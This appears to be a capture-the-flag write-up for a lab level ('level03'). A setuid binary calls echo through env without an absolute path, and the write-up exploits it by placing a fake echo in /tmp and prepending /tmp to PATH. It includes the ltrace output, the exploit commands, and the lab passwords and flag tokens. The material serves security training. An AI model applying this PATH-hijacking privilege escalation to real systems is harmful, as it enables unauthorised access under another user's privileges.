 `su level03 -> kooda2puivaav1idi4f57q8iq`

Check the permissions of the file:

```bash
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

The binary is owned by flag03, and it prints "Exploit Me". it also has the s permission, which means it will be run as flag03, so we would like this binary to execute getflag.

With ltrace level03, we see that this executable runs the line: `system("/usr/bin/env echo Exploit me")`.

```bash
$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                       = 2003
geteuid()                                                       = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)             = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)             = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                          = 0
+++ exited (status 0) +++
```

We try to modify echo with `echo getflag > /bin/echo` but i obviously doesn't work.

One exploit that is present in the level03 executable, is that echo is not designed with an absolute path, so we could make it use our own echo.

```bash
$ echo getflag > /tmp/echo
$ chmod +x /tmp/echo
$ export PATH="/tmp:$PATH"
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
